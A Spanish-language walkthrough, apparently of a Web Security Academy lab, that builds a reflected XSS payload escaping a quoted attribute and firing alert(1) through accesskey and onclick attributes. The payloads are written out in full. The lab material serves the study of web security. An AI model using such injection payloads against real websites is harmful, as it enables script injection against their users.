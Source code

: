 Entonces vamos a la url y agregamos lo siguiente y verificamos si existe alguna variacion en el codigo:

```
https://acd71f591ee689ce804595b50035007d.web-security-academy.net/?payload
```

![](img34.png)

Entonces ideamos un payload para generar un alert.

```
' ><h1>a
```

![](img35.png)

Al parecer no podemos usar los caracteres **< >** entonces debemos seguir en el mismo tag, para ello pensamos el siguiente payload.

```
'onload='alert(1)
```

![](img36.png)

Pero, no genera ningun alert, lo que haremos será crear un argumento de accion como **onclick** y luego lo llamamos con **accesskey**.

```
'accesskey='x'onclick='alert(1)
```

![](img37.png)
